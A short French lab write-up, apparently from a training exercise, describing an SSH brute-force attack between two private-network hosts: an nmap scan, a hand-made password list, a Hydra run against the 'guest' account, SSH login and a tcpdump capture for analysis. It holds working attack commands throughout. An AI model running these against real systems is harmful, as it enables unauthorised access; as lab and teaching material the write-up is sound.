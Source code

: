# **Attaque en Brute Force via SSH**

## **1. Informations sur le scénario**
- **IP de la cible** : 192.168.20.1 (**Guest1Zone2**)
- **IP de l'attaquant** : 192.168.30.3 (**Guest1Zone3**)
- **Port ciblé** : 22 (SSH)

## **2. Scan de la cible**
- **Commande utilisée** : `nmap -p 22 192.168.20.1`


## **3. Création d'une liste de mots de passe**
- **Commande utilisée** :
  ```bash
  touch hydra.txt
  nano hydra.txt 
  ```
  et ensuite crée toute une liste de "potentiel mdp"

## **4. Brute Force avec Hydra**
- **Commande utilisée** :
  ```bash
  hydra -l guest -P hydra.txt 192.168.20.1 ssh
  ```

  - Hydra tente de se connecter en SSH avec chaque mot de passe du fichier `hydra.txt`.
  - Une fois le bon mot de passe trouvé, il l'affiche.
  
## **5. Connexion en SSH à la cible**
- **Commande utilisée** :
  ```bash
  ssh guest@192.168.20.1
  ```
- **Effet** : Accès au terminal distant de **Guest1Zone2** avec le mot de passe découvert.

## **6. Capture du trafic SSH pour analyse**
- **Sur la cible (Guest1Zone2)** :
  ```bash
  tcpdump -i ens3 port 22 -w bruteforce_ssh.pcap
  ```
- **Effet** : Capture les tentatives de connexion SSH pour analyse dans Wireshark.
